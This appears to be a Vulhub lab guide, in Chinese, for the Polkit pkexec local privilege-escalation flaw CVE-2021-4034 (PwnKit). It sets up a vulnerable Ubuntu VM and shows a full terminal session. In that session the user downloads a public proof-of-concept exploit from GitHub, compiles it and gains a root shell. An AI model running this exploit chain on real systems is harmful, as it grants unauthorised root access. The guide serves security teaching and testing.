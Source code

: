 # Polkit `pkexec` 权限提升漏洞（CVE-2021-4034）

Polkit（之前名为PolicyKit）是一个权限相关的套件，pkexec是其中用于以其他用户身份执行命令的工具，它具有suid权限。

当前版本的pkexec中没有正确处理参数和环境变量，导致攻击者可以利用这个Bug劫持环境变量`GCONV_PATH`，进而劫持动态链接库，以root身份执行任意代码。

参考链接：

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

## 漏洞环境

> 说明: Linux内核在这个[commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)中修复了[`argc==0`的Bug](https://lwn.net/Articles/882799/)，而Docker环境会使用宿主机的内核，所以Vulhub采用的方案是在Docker容器中运行Qemu虚拟机，并在虚拟机中运行合适版本的Ubuntu操作系统。

你可以执行下面这条命令启动一个Ubuntu 20.04，其中包含Polkit 0.105版本套件：

```
docker-compose up -d
```

因为容器中运行了Qemu虚拟机，所以初始化需要消耗更长时间。你可以使用`docker-compose logs -f`查看运行时的日志，如果发现如下日志，说明初始化成功：

![](1.png)

## 漏洞利用

首先，使用`ubuntu/vulhub`作为账号密码登录目标的SSH（端口是2222）：

```
ssh ubuntu@192.168.1.163 -p2222
```

然后使用[这个项目](https://github.com/berdav/CVE-2021-4034)来利用CVE-2021-4034：

```
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2023-01-11 15:11:29--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2023-01-11 15:11:30--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘main.tar.gz’

main.tar.gz                                            [ <=>                                                                                                             ]   4.08K  --.-KB/s    in 0.003s

2023-01-11 15:11:30 (1.49 MB/s) - ‘main.tar.gz’ saved [4176]

ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```

![](2.png)

上图可见，执行提权程序后，我们已经成为了root用户。
